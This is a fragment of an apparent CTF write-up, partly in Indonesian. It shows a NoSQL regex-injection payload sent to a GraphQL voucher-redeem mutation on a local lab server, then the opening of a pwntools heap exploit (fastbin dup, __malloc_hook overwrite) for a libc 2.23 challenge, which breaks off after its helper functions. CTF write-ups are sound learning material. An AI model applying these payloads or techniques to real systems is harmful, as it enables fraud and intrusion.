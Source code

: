 ![](Pasted%20image%2020221127093345.png)

```http
POST /graphql HTTP/1.1
Host: localhost:4444
Content-Length: 214
Content-Type: application/json
Cookie: session=s%3Aasd.gBsc29mRZ6fGHG5eg9WQI3ZrT5QaIY9tw39SmfeNTq4
Connection: close

{"query":"\n        mutation($voucher: JSON!) { \n          redeem(voucher: $voucher) { \n            coins\n            message\n          } \n        }\n        ","variables":{"voucher":{"code":{"$regex":".*"}}}}
```


# pwn
---
## old dayz

libc 2.23, bug uaf + double free
exploitasi fastbin dup trus overwrite `__malloc_hook` ke one_gadget.

```python
from pwn import *

elf  = ELF("./old_patch", checksec=False)
libc = ELF("./libc.so.6", checksec=False)

def add(idx, sz):
    p.sendlineafter(b'>', b'1')
    p.sendlineafter(b'idx:',b'%d' % idx)
    p.sendlineafter(b'size:',b'%d' % sz)

def delete(idx):
    p.sendlineafter(b'>', b'2')
    p.sendlineafter(b'idx:', b'%d' % idx)

def write(idx, data):
    p.sendlineafter(b'>', b'3')
    p.sendlineafter(b'idx:', b'%d' % idx)
    p.sendlineafter(b'contents:', b'%s' % data)

def view(idx):
```